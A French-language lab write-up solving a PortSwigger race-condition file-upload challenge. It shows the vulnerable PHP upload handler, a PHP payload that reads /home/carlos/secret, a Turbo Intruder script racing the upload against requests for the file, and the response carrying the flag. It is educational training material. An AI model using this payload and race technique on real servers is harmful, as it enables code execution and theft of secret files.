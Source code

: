 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

## Solution

Pour ce lab, il faut uploader un fichier PHP qui va nous permettre d'exécuter des commandes sur le serveur.

Voici le code responsable de l'upload du fichier:

```php
<?php
    $target_dir = "avatars/";
    $target_file = $target_dir . $_FILES["avatar"]["name"];

    // temporary move
    move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

    if (checkViruses($target_file) && checkFileType($target_file)) {
        echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
    } else {
        unlink($target_file);
        echo "Sorry, there was an error uploading your file.";
        http_response_code(403);
    }

    function checkViruses($fileName) {
        // checking for viruses
    }

    function checkFileType($fileName) {
        $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
        if($imageFileType != "jpg" && $imageFileType != "png") {
            echo "Sorry, only JPG & PNG files are allowed\n";
            return false;
        } else {
            return true;
        }
    }
?>
```

La vulnérabilité exploitée ici est que le fichier est posté sur le serveur, puis vérifié et si il ne correspond pas aux critères d'upload, alors il sera supprimé.

Ce qui veut dire que pendant un court laps de temps, le fichier est présent sur le serveur, mais n'est pas vérifié.

On peut donc utiliser une course condition pour exploiter cette vulnérabilité et accéder au fichier avant qu'il ne soit supprimé.

Dans la description du lab on sait que le flag se trouve dans le fichier `/home/carlos/secret`.

Donc avec ce script php, on peut récupérer le flag:

```php
<?php echo file_get_contents('/home/carlos/secret') ?>
```

Avec ce script Turbo Intruder :

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0a5800390329e68a8160618a009600f3.web-security-academy.net
Cookie: session=4JMC33Vm8XjvTy8HY2WjzTUk0N6wNeED
Content-Length: 745
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzs5zCewsmjQSXVi
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

------WebKitFormBoundaryxzs5zCewsmjQSXVi
Content-Disposition: form-data; name="avatar"; filename="simple.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryxzs5zCewsmjQSXVi
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryxzs5zCewsmjQSXVi
Content-Disposition: form-data; name="csrf"

usDYYiTQyMDdfYj0m1hQRj0XwkldA2lx
------WebKitFormBoundaryxzs5zCewsmjQSXVi--
'''

    request2 = '''GET /files/avatars/simple.php HTTP/2
Host: 0a5800390329e68a8160618a009600f3.web-security-academy.net
Cookie: session=4JMC33Vm8XjvTy8HY2WjzTUk0N6wNeED
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

On obtient des réponses `HTTP 200` avec le flag:

```http
HTTP/1.1 200 OK
Date: Fri, 05 Jan 2024 11:19:49 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 32

lU1Qymp5QkH9fy9OaKkmx6f0uRg5gxNg
```